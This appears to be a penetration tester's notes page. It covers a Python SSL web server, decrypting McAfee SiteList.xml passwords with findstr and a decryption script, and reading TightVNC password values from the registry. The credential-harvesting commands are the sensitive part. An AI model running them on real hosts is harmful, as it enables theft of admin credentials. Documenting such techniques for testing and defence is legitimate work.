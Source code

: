 [Canarytokens.org](https://canarytokens.org/generate#)

#### Python SSL Web Server

Create PEM file

```
    openssl req -newkey rsa:2048 -x509 -keyout cakey.pem -out cacert.pem -days 3650
```

To concatenate the private key and public certificate into a pem file (which is required for many web-servers ) :

```
    cat cakey.pem cacert.pem > server.pem
```

Python code

```
    import BaseHTTPServer, SimpleHTTPServer
    import ssl

    httpd = BaseHTTPServer.HTTPServer(('localhost', 4443), SimpleHTTPServer.SimpleHTTPRequestHandler)
    httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
    httpd.serve_forever()
```

#### McAfee SiteList.xml decryption

Sometimes DA and other admin level account passwords are stored in Sitelist.xml files on local hosts

```
    type "C:\ProgramData\McAfee\Common Framework\SiteList.xml" |findstr Password

    ╰ $ ./mcafee_sitelist_pwd_decrypt.py f2mwBTzPQdtnY6QNOsVexH9psAU8z0HbZ2OkDTrFXsR/abAFPM9B3Q==
    Crypted password   : f2mwBTzPQdtnY6QNOsVexH9psAU8z0HbZ2OkDTrFXsR/abAFPM9B3Q==
    Decrypted password : <empty>
```

https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Get-SiteListPassword.ps1

```
git clone https://github.com/funoverip/mcafee-sitelist-pwd-decryption
```

#### TightVNC Password Retrieval

Retrieve TightVNC registry keys

```
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\server
```

Copy password from reg query output

```
    Password    REG_BINARY    7228098734BBBA06
    ControlPassword    REG_BINARY    435D7A037B9FDC2B
```
